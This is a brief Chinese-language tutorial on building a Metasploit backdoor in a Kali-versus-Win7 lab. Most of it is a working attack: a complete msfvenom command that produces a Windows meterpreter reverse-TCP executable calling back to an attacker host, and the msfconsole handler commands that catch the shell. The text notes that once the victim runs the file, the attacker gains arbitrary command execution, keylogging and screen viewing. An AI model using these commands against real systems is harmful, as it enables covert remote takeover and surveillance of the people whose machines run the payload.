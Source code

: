 # metasploit---后门使用

keywords: metasploit msf msfvenom 反向连接  

metasploit是很强大的渗透工具，这里做后门简单演示  

准备2台机器：kali和win7  
kali预装了metasploit，扮演攻击者，win7扮演受害者  


在kali下使用msfvenom生成恶意文件：  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.2 LPORT=8080 -a x86 -f exe -o hello.exe
```
注：每次生成都会有区别，不是完全一致的  

kali监听本机8080端口：  
```bash
msfconsole
# 启动后执行以下命令
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 0.0.0.0
    set LPORT 8080
    exploit
```

windows执行hello.exe之后，kali即可获取shell  

获取shell后，可执行任意命令，还有各种封装好的功能，如键盘记录、查看屏幕等  


2021/4/20  
